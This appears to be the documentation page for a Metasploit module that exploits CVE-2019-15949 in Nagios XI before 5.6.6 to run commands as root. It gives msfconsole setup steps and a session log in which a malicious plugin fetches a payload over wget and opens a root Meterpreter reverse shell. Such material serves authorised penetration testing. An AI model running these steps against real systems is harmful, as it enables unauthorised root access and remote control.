 ## Introduction
This module exploits a vulnerability in Nagios XI before 5.6.6 in order to execute arbitrary commands as root.

The module first checks if the supplied credentials are valid and belong to a user with permissions to modify plugins. It then exploits these permissions by uploading a malicious plugin to the target and subsequently sending an HTTP GET request to profile.php?cmd=download. This request downloads a system profile from the server and in the process launches the getprofile.sh script as root via a passwordless sudo entry. This script executes the malicious plugin as root.

For all supported targets except `Linux (cmd)`, the module first starts an HTTP Server to serve the payload, and then writes a wget request for the payload to the malicious plugin. When the plugin is executed, the target requests the payload, which is then sent to the target and executed as root. However, this method will only work if wget is installed on the target, which may not necessarily be true, for instance if Nagios XI is running on a minimal/custom CentOS installation. In the latter case, the target must be set to `Linux (cmd)` and the payload must be set accordingly. For this target, the module does not start an HTTP Server, but writes the payload directly to the malicious plugin instead, thereby avoiding the need for a wget request. In this scenario, the payload `cmd/unix/reverse_bash` is recommended because it the most likely payload to still work on a minimal Linux installation.

Valid credentials for a user with administrative privileges are required. This module was successfully tested on Nagios XI 5.6.5 running on CentOS 7.

## Vulnerable system
Nagios XI before 5.6.6.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/nagiosxi_authenticated_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set SRVHOST [IP]`
6. Do: `set USERNAME [username]`
7. Do: `set PASSWORD [password]`
8. Do: `set payload [payload]`
9. Do: `set LHOST [IP]`
10. Do: `set LPORT [port]`
11. Do: `exploit`

## Options
1. `USERNAME`. The username to authenticate with. This user should have permissions to modify plugins. The default setting is `nagiosadmin`, which is the default admin account for Nagios XI systems.
2. `PASSWORD`. The password to authenticate with.

## Targets
0. Linux (x86)
1. Linux (x64) # This is the default target.
2. Linux (cmd) # If wget is not installed on the target, this target should be selected together with the payload cmd/unix/reverse_bash.

## Scenarios
```
msf5 exploit(linux/http/nagiosxi_authenticated_rce) > show options

Module options (exploit/linux/http/nagiosxi_authenticated_rce):

   Name       Current Setting       Required  Description
   ----       ---------------       --------  -----------
   PASSWORD   P@ssw0rd!             yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.1           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                    yes       The target port (TCP)
   SRVHOST    192.168.1.2           yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080                  yes       The local port to listen on.
   SSL        false                 no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                     yes       Base path to NagiosXI
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME   nagiosadmin           yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf5 exploit(linux/http/nagiosxi_authenticated_rce) > run
[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Found Nagios XI application with version 5.6.5.
[*] Using URL: http://192.168.1.2:8080/eFFP5lYvZ8eCnR0
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100% done (121/121 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting for the plugin to request the final payload...
[*] Client 192.168.1.1 (Wget/1.14 (linux-gnu)) requested /eFFP5lYvZ8eCnR0
[*] Sending payload to 192.168.1.1 (Wget/1.14 (linux-gnu))
[*] Sending stage (3021284 bytes) to 192.168.1.1
[*] Meterpreter session 1 opened (192.168.1.2:4444 -> 192.168.1.1:56510) at 2020-02-27 16:27:49 +0100
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0

```
## References
1. <https://github.com/jakgibb/nagiosxi-root-rce-exploit>
2. <https://nvd.nist.gov/vuln/detail/CVE-2019-15949>